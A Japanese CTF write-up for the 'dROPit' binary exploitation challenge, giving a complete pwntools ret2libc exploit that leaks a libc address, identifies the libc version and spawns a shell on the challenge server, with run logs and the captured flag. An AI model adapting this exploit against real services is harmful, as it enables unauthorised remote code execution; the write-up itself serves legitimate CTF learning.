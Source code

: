 # dROPit:Binary Exploitation:300pts
You're on your own this time. Can you get a shell?  
nc challenges.ctfd.io 30261  
Hint  
[https://libc.rip](https://libc.rip/)  

# Solution
ret2libcを行うと予想できる。  
以下のテンプレートhack.pyを使用する。  
```python:hack.py
from pwn import *

elf = ELF('./dropit')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io = remote('challenges.ctfd.io', 30261)
#io = process(elf.path)
rop = ROP(elf)

puts_plt = elf.plt['puts']
main = elf.symbols['main']
libc_start_main = elf.symbols['__libc_start_main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(puts_plt))
log.info("__libc_start_main: " + hex(libc_start_main))
log.info("pop rdi gadget: " + hex(pop_rdi))

base = b'A' * 56

io.recvline()
payload = base + p64(pop_rdi) + p64(libc_start_main) + p64(puts_plt) + p64(main)
io.sendline(payload)
recieved = io.recvline().strip()
io.recvline()

leak = u64(recieved.ljust(8, b'\x00'))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))
libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))

binsh = next(libc.search(b'/bin/sh'))
system = libc.sym['system']
log.info("/bin/sh %s " % hex(binsh))
log.info("system %s " % hex(system))
payload = base + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
io.sendline(payload)

io.interactive()
```
実行する。  
```bash
$ python hack.py
[*] '/dropit'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.ctfd.io on port 30261: Done
[*] Loaded 14 cached gadgets for './dropit'
[*] puts@plt: 0x40102c
[*] __libc_start_main: 0x403fe8
[*] pop rdi gadget: 0x401203
[*] Leaked libc address,  __libc_start_main: 0x7f2bbd33abc0
[*] Address of libc 0x7f2bbd319110
[*] /bin/sh 0x7f2bbd4cd20a
[*] system 0x7f2bbd3685f0
[*] Switching to interactive mode
?
[*] Got EOF while reading in interactive
$ ls
$ ls
[*] Closed connection to challenges.ctfd.io port 30261
[*] Got EOF while sending in interactive
```
libcのバージョンが違うようでシェルが取れていないようだ。  
```bash
$ /lib/x86_64-linux-gnu/libc.so.6
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1.2) stable release version 2.27.
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 7.5.0.
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```
`__libc_start_main`が`0x7f2bbd33abc0`なので[https://libc.rip](https://libc.rip/)を使う。  
![libcdb.png](images/libcdb.png)が得られる。  
2.32のような気がするので、[pkgs.org (libc6_2.32-0ubuntu3_amd64.deb)](https://ubuntu.pkgs.org/20.10/ubuntu-main-amd64/libc6_2.32-0ubuntu3_amd64.deb.html)からダウンロードする。  
```bash
$ wget http://archive.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.32-0ubuntu3_amd64.deb
~~~
$ ar vx libc6_2.32-0ubuntu3_amd64.deb
x - debian-binary
x - control.tar.xz
x - data.tar.xz
$ tar Jxvf data.tar.xz
~~~
$ ./lib/x86_64-linux-gnu/libc-2.32.so
GNU C Library (Ubuntu GLIBC 2.32-0ubuntu3) release release version 2.32.
Copyright (C) 2020 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 10.2.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```
これをhack.pyと同じディレクトリに置き、使用する。  
hack.pyの`libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')`を`libc = ELF('./libc-2.32.so')`に書き換えればよい。  
```bash
$ python hack.py
[*] '/dropit'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/libc-2.32.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.ctfd.io on port 30261: Done
[*] Loaded 14 cached gadgets for './dropit'
[*] puts@plt: 0x40102c
[*] __libc_start_main: 0x403fe8
[*] pop rdi gadget: 0x401203
[*] Leaked libc address,  __libc_start_main: 0x7f453a024bc0
[*] Address of libc 0x7f4539ffc000
[*] /bin/sh 0x7f453a1aa41f
[*] system 0x7f453a04c3c0
[*] Switching to interactive mode
$ ls
dropit
flag.txt
$ cat flag.txt
nactf{r0p_y0ur_w4y_t0_v1ct0ry_698jB84iO4OH1cUe}
```
実行するとシェルがとれる。  

## nactf{r0p_y0ur_w4y_t0_v1ct0ry_698jB84iO4OH1cUe}